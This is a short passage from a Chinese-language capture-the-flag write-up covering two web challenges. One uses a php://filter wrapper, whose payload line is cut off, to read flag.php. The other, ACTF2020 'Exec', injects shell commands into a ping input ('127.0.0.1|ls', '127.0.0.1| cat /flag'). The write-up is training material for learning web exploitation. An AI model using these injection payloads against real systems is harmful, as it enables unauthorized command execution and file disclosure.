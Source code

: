 > 所以这里我们使用php://filter伪协议读取flag.php的源代码

```
payload:?file=php: 
```

![在这里插入图片描述](img/cf4e8c45e6970518a67f3355feff6223.png)
base64解码即可得flag

### [ACTF2020 新生赛]Exec

> 打开网页
> ![在这里插入图片描述](img/8de66af11a29ea2046a549f4b87d9270.png)
> 很明显的命令执行
> payload:127.0.0.1|ls
> ![在这里插入图片描述](img/d744a5480c2640ade8409c27b039f5e9.png)

最终

```
payload:127.0.0.1| cat /flag 
```
